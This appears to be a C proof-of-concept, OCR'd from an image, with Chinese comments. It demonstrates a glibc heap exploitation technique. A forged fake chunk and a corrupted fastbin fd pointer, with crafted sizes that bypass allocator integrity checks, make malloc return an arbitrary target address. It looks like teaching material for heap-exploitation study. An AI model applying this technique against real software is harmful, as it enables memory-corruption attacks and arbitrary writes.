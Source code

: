```
    a=malloc(0xa00000);
    printf("\033[1;33m第二次继续申请一个大堆块，然后free，触发heap_grow:\033[0m\n");
    printf("第二次申请a，a的地址：%p\n\n",a-2);
    free(a);
 
 
    /*申请两个堆块，一个fastbins大小 ，一个smallbin大小*/
    printf("\033[1;33m此时申请一个fast chunk，一个small chunk为后续利用作铺垫:\033[0m\n");
    a=malloc(0x10);
    b=malloc(0x80);
    printf("fast chunk a: %p\n",a-2);
    printf("small chunk b: %p\n\n",b-0x10);
     
    /*
    用来链入large bin的fake chunk,注意从buf[1]~buf[5]是我们的fake chunk
    buf[0]是为了绕过_int_malloc中的检测，
    buf[7]是为了绕过_int_free时调用的consolidate的检测。
    */
    buf[0]=0xfffffffffffffff0;/*在检测中会用size+buf[2] 与size 比较，结果为0才能正确绕过*/
    buf[1]=0x0;
    buf[2]=0;
    buf[3]=0x21;
    buf[4]=0;
    buf[5]=0;
    buf[6]=0;
    buf[7]=1;  /*绕过malloc_consolidate 中的unlink操作*/
    printf("\033[1;33m伪造一个fake chunk，并为绕过一些检测，在某些地方埋伏笔\033[0m\n");
    printf("这是fake chunk--buf[2]的地址: %p\n",buf+2);
    printf("这是目标target的地址: %p\n",target);
    printf("\033[1;33m为了绕过检测而提前作的准备:\033[0m;\n");
    printf("buf[2]-0x10: %#lx\n",buf[0]);
    printf("buf[2]+0x28: %#lx\n",buf[7]);
    printf("buf[2]的size: %#lx\n\n",buf[3]);
 
    /*把a 放入fastbins ,把buf链入fastbin*/
    printf("\033[1;33m先free a,在通过修改a的fd，把buf[2]链入，随后free b触发:\033[0m\n");
    free(a);
    *a=(size_t)(&buf[2]);
    /*触发malloc_consolidate*/
    free(b);
 
    /*申请大堆块把buf放进largebin，修改buf size*/
    printf("\033[1;33m先修改buf 的size，使其可以被放入large bin中:\033[0m\n");
    buf[3]=0xa00001;
    b=malloc(0xa00000);
    printf("buf[2]的size: %#lx\n\n",buf[3]);
    /*再次修改size*/
    printf("\033[1;33m把buf 的size 修改为很大，使得可以分配到我们的target：\033[0m\n");
    buf[3]=0xfffffffffffffff1;
    /**/
    c=malloc(0xffffffffffffff80);
    d=malloc(0x10);
    printf("分配到的d:%p\n",d);
    printf("target: %p\n",target);
    return 0;
} 
```

